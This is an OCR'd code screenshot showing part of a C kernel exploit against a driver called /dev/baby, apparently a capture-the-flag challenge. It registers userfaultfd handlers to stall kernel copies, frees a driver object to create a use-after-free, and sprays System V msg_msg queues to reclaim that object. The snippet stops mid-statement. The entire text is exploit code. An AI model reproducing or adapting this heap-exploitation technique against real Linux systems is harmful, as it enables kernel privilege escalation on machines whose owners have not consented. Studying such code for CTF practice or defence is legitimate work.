 ```c
    page2 = (size_t *)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);

    buffer = (size_t *)malloc(0x5000);

    pipe(pipe_fd1);
    pipe(pipe_fd2);
    pipe(pipe_fd3);

    dev_fd = open("/dev/baby", O_RDWR);
    if (dev_fd < 0)
    {
        err_exit("Failed to open /dev/baby");
    }

    pwn_addr = mmap(NULL, 0x2000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    register_userfaultfd(&monitor_setx, (void *)((size_t)pwn_addr + 0x1000), 0x1000, uffd_handler1);

    pwn_addr2 = mmap(NULL, 0x2000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    register_userfaultfd(&monitor_setx2, (void *)((size_t)pwn_addr2 + 0x1000), 0x1000, uffd_handler2);

    // 让index=0为UAF
    add(0); // 0
    add(1); // 1
    add(2); // 3
    add(3); // 7

    delete (0);

    // 接下来申请msg_msg，会得到index=0的obj

    /* 0x00. 构造初始的msg_msg队列 */
    msg_id[0] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    if (msg_id[0] < 0)
    {
        err_exit("Failed to create msg_id.");
    }

    /* MSG #0 Q0 */
    struct msg_buf *msgp = (struct msg_buf *)buffer;
    msgp->mtype = 1;
    msgp->buf[0] = 0xdeadbeaf;
    msgp->buf[1] = 0xdeadbeaf;
    if (msgsnd(msg_id[0], (void *)msgp, 0x10, 0) < 0)
    {
        err_exit("Failed to snd msg.");
    }

    msg_id[1] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    if (msg_id[1] < 0)
    {
        err_exit("Failed to create msg_msg queue1.");
    }

    /* MSG #0 Q1 */
    msgp->mtype = 1;
    msgp->buf[0] = 0xc0dec0fe;
    msgp->buf[1] = 0xc0dec0fe;
    if (msgsnd(msg_id[1], (void *)msgp, 0x10, 0) < 0)
    {
        err_exit("Failed to snd msg2.");
```